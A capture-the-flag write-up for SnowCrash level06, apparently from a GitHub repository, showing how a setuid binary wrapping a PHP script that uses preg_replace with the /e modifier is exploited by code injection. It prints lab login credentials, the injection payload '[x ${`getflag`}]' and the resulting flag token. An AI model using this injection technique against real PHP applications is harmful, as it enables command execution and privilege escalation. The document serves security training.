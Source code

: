 # Level06

## How to login

```
ssh level06@192.168.1.184 -p 4242
password: viuaaale9huek52boumoomioc
```

## How to get the flag

Once logged, we find the following two files. 'level06.php' seems to be a PHP script and 'level06' the binary of this same script. The binary has the Setuid bit set, meaning that it will be executed with the privileges of the file owner, this can be a security risk if the file is vulnerable to exploitation since an attacker could potentially exploit the file to gain the privileges of the file owner (flag06).
```
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

After passing the content of 'level06.php' through a [PHP Beautifier](https://codebeautify.org/php-beautifier), we obtain the following code which seems to be designed to process a file and perform specific string replacements using regular expressions.
```
#!/usr/bin/php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

A deeper evaluation of the script shows that it reads a file (passed as the first argument), processes its content by replacing . with x and @ with y inside [x ...] blocks, converts [ and ] to ( and ), and outputs the modified content. Nothing is done with the second arguments (argv[2]).

A security concern arise, since the use of the /e modifier in 'preg_replace' is dangerous because it evaluates the replacement string as PHP code. This can lead to code injection vulnerabilities if the input is not properly sanitized. This feature has been deprecated as of PHP 5.5.0 and removed in PHP 7.0.0.

Knowing that, we will try to introduce the command 'getflag' in such way that is recognized as the pattern under evaluation and hopefully executed. To do that we need to craft the exploit as shown below and then execute the binary 'level06' with the created exploit. The backticks (`) in PHP execute shell commands.
```
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/exploit
level06@SnowCrash:~$ ./level06 /tmp/exploit
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

And the flag is obtained.